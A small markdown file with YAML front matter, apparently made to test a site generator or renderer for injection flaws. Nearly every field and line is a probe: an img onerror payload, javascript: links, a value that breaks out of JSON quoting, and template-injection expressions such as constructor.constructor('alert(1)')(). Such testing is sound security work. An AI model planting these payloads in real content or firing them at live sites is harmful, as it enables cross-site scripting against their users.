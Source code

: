 ```yaml
---
title: "test"
date: 2023-08-12-lolkek
description: <img src=x onerror=alert() {{7 * 7}}
pubDate: 2022-08-30T16:00:43+00:00","link":
link: javascript:alert()
---
```


# Test
## lolkek
[Click pls](javascript:alert())
${7*7}
{{7*8}}
{{_openBlock.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
